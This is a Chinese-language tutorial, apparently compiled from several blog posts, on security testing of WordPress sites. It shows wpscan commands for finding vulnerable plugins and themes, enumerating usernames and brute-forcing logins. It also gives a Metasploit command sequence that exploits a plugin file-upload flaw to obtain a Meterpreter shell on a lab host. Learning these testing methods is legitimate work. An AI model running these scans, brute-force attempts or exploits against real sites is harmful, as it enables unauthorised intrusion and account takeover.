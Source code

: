 很多企业官网使用的WordPress搭建。
使用wpscan工具扫描历史漏洞和插件组件漏洞。
如：任意文件读取等。

需要注册token才能查看漏洞信息
<https://blog.csdn.net/weixin_44628122/article/details/107250045>
```
命令时带上token
--api-token 
```


kali中可以使用wpscan：
```text
wpscan --url https://www.xxxxx.wiki/
```

> 演示案例：

* 我们扫描192.168.43.104:8000这个站点（此站点存在一个WordPress进程）

![](https://pic3.zhimg.com/v2-b90cd10071461ee62a625f52f4698a20_r.jpg)

![](https://pic4.zhimg.com/v2-f30e534aa4bbe3e6d6580aa7c5b32aff_r.jpg)

## 五、扫描指定用户

* 格式：

```text
wpscan --url https://www.xxxxxxx.wiki/ --enumerate u
```

## 六、**暴力破解得到密码**

* **在暴力破解之前，需要提供一个字典文件**
* 格式：

```text
wpscan --url  https://www.xxxxx.wiki/  -e  u --wordlist 字典文件路径
```

## 七、**扫描插件漏洞**

* 插件可以扩展`WordPress`站点的功能，但很多插件中都存在安全漏洞，而这也会给攻击者提供可乘之机
* 我们可以使用下列命令扫描`WordPress`站点中安装的插件：

1. wpscan --url [https://www.xxxxx.wiki/](https://link.zhihu.com/?target=https%3A//www.xxxxx.wiki/) --enumerate p
2.
3. //备注：--url与-u参数相同，下面雷同

* 我们可以使用下列命令来扫描目标插件中的安全漏洞：

```text
wpscan --url https://www.xxxxx.wiki/ --enumerate vp
```

## 八、**主题漏洞扫描**

* 使用下列命令对主题进行扫描：

```text
wpscan --url https://www.xxxxx.wiki --enumerate t
```

> 演示案例：

![](https://pic1.zhimg.com/v2-3673956c30b6f8797b6bd8788b7e17ce_r.jpg)

* 看到总共数据库中的402个主题，发现了3个主题，但是发现的主题不一定有这么多，会在下面显示

![](https://picx.zhimg.com/v2-6e69696ff70649a8dd4a643e0653e2df_r.jpg)

* 使用下列命令扫描主题中存在的漏洞：

```text
wpscan --url https://www.xxxxxx.wiki --enumerate vt
```

## 九、**`TimThumbs`文件漏洞扫描**

```text
wpscan -u https://www.xxxxxx.wiki/ -enumerate tt
```

^


## 结合Metasploit利用插件中的漏洞

接下来，我们将用第一个插件中的任意文件上传漏洞来进行漏洞利用演示，该漏洞允许我们上传恶意文件并实现远程代码执行。

打开终端窗口并输入下列命令：

```
useexploit/unix/webapp/wp_reflexgallery_file_upload
msfexploit(wp_reflexgallery_file_upload) > set rhost 192.168.0.101
msfexploit(wp_reflexgallery_file_upload) > set targetURI /wordpress/
msfexploit(wp_reflexgallery_file_upload) > exploit
```

你将看到终端与目标设备建立了Meterpreter会话，你可以输入下列命令查看目标系统信息：

```
Sysinfo
```

![如何对Wordpress站点进行安全测试](https://image.3001.net/images/20180612/15287971789768.png!small)

## 枚举WordPress用户名

我们可以在终端中输入下列命令来枚举WordPress用户名：

```
./wpscan.rb -u http://192.168.0.101/wordpress/ --enumerate u
```

![如何对Wordpress站点进行安全测试](https://image.3001.net/images/20180612/15287972068549.png!small)

接下来工具将导出用户名数据表，你可以看到用户名以及对应的ID信息。

当然了，你也可以使用下列命令枚举出所有的内容：

```
./wpscan.rb -u http://192.168.0.101/wordpress/ -e at -e ap -e u
–e at : enumerate all themes of targeted website
–e ap: enumerate all plugins of targeted website
–e u: enumerate all usernames of targeted website
```

![如何对Wordpress站点进行安全测试](https://image.3001.net/images/20180612/15287972309586.png!small)

## 使用WPScan进行暴力破解

在进行暴力破解攻击之前，我们需要创建对应的字典文件。输入下列命令：

```
./wpscan.rb –u http://192.168.0.101/wordpress/ --wordlist /root/Desktop/dict.txt --usernameadmin
```

![如何对Wordpress站点进行安全测试](https://image.3001.net/images/20180612/1528797258105.png!small)

如果找到了相匹配的用户名与密码，工具将直接以admin:password的形式显示出来：

